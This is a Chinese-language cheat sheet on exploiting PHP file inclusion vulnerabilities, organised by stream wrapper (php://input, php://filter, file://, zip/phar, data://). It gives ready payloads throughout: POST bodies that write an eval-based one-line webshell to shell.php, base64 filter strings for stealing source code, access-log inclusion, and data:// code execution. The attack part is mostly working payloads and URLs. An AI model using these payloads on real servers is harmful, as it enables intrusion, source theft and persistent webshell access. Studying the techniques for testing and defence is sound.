

## PHP支持的伪协议

PHP文件包含漏洞的产生原因是在通过PHP的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

```php
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```

## php.ini参数设置

在php.ini里有两个重要的参数allow_url_fopen、allow_url_include。

**allow_url_fopen:默认值是ON。允许url里的封装协议访问文件；**

**allow_url_include:默认值是OFF。不允许包含url里的封装协议包含文件；**

### 有限制 包含

 **%00截断 不推荐**

```php
条件：magic_quotes_gpc=OFF php版本 <5.3.4
```

 **长度截断 不稳定**

```php
条件：windows，点号需要长于256；linux长度4096 ././././....
```

**？截断**

```
只在远程文件包含使用
```

**POST包含中国蚁剑连接**

```php
请求信息：http body
name：file
value：123.txt
```

## 各协议的利用条件和方法



## php://input

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。

**注：当enctype=”multipart/form-data”时，php://input是无效的。**

```php
php://input
用法：?file=php://input 数据利用POST传过去。
GIF89a
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```

## **file://**

用于访问本地文件系统。当指定了一个相对路径（不以/、、\或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。

用法：

```php
1、file://[文件的绝对路径和文件名]
http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt
2、[文件的相对路径和文件名]
http://127.0.0.1/include.php?file=./phpinfo.txt
```

```php
利用日志文件包含
?file=/var/log/nginx/access.log
?file=file:///D:/phpstudy_pro/WWW/php/123.txt
需要完整路径
?file=file://C:/Windows/System32/drivers/etc/hosts.txt
?file=file://C:/phpstudy_pro/Extensions/Nginx1.15.11/logs/access.log
```

## http://、https://

URL 形式，允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源，通常用于远程包含。

用法：

```php
[http://[网络路径和文件名]
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```

## php://

php:// 用于访问各个输入/输出流（I/O streams），经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。

| 协议                    | 作用                                                         |
| ----------------------- | ------------------------------------------------------------ |
| php://input             | 可以访问请求的原始数据的只读流，在POST请求中访问POST的`data`部分，在`enctype="multipart/form-data"` 的时候`php://input `是无效的。 |
| php://output            | 只写的数据流，允许以 print 和 echo 一样的方式写入到输出缓冲区。 |
| php://fd                | (>=5.3.6)允许直接访问指定的文件描述符。例如 `php://fd/3` 引用了文件描述符 3。 |
| php://memory php://temp | (>=5.1.0)一个类似文件包装器的数据流，允许读写临时数据。两者的唯一区别是 `php://memory` 总是把数据储存在内存中，而 `php://temp` 会在内存量达到预定义的限制后（默认是 `2MB`）存入临时文件中。临时文件位置的决定和 `sys_get_temp_dir()` 的方式一致。 |
| php://filter            | (>=5.0.0)一种元封装器，设计用于数据流打开时的筛选过滤应用。对于一体式`（all-in-one）`的文件函数非常有用，类似 `readfile()`、`file()` 和 `file_get_contents()`，在数据流内容读取之前没有机会应用其他过滤器。 |

### php://filter参数详解

| resource=<要过滤的数据流> | 必须项。它指定了你要筛选过滤的数据流。                       |
| ------------------------- | ------------------------------------------------------------ |
| read=<读链的过滤器>       | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔   |
| *write=<写链的筛选列表>*  | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔   |
| <; 两个链的过滤器>        | 任何没有以 *read=* 或 *write=* 作前缀的筛选器列表会视情况应用于读或写链。 |

#### 可用的过滤器列表（4类）

| 字符串过滤器      | 作用                                        |
| ----------------- | ------------------------------------------- |
| string.rot13      | 等同于`str_rot13()`，rot13变换              |
| string.toupper    | 等同于`strtoupper()`，转大写字母            |
| string.tolower    | 等同于`strtolower()`，转小写字母            |
| string.strip_tags | 等同于`strip_tags()`，去除html、PHP语言标签 |

| 转换过滤器                                                   | 作用                                                       |
| ------------------------------------------------------------ | ---------------------------------------------------------- |
| convert.base64-encode & convert.base64-decode                | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
| convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码             |

| 压缩过滤器                        | 作用                                                         |
| --------------------------------- | ------------------------------------------------------------ |
| zlib.deflate & zlib.inflate       | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。              |

| 加密过滤器 | 作用                   |
| ---------- | ---------------------- |
| mcrypt.*   | libmcrypt 对称加密算法 |
| mdecrypt.* | libmcrypt 对称解密算法 |

#### 读取文件源码用法

```php
php://filter/read=convert.base64-encode/resource=[文件名]
php://filter/convert.base64-encode/resource=[文件名]
Php://filter/convert.bAse64-encode/resource=[文件名]//大小写绕过

#注意：php://filter 协议中间部分可以随意加东西
category=php://filter/convert.base64-encode/aaaindexbbb/resource=flag

http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

### 执行php代码用法

```php
php://input + [POST DATA]
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php phpinfo(); ?>
```

### 写入一句话木马用法

```php
http://127.0.0.1/include.php?file=php://input
[POST DATA部分]
<?php fputs(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```

## phar://、zip://、bzip2://、zlib://

用于读取压缩文件，`zip:// 、 bzip2:// 、 zlib://` 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：`jpg png gif xxx` 等等。

### 用法示例

```php
1、zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
 
2、compress.bzip2://file.bz2
http://127.0.0.1/include.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.bzip2://./file.jpg
 
3、compress.zlib://file.gz
http://127.0.0.1/include.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpghttp://127.0.0.1/include.php?file=compress.zlib://./file.jpg4、phar://
```

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

```php
phar://
    ?file=phar://xxx.php
    phar://123.zip/ 相当于一个文件夹
    先创建一个123.php 再压缩文件为123.zip 最后改后缀名为123.jpg
    http://127.0.0.1/php/test.php?file=phar://123.jpg/123.php
    http://127.0.0.1/php/test.php?file=phar://123.zip/123.php
```

## data://

数据流封装器，以传递相应格式的数据。通常可以**用来执行PHP代码**。

### 示例用法

```php
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

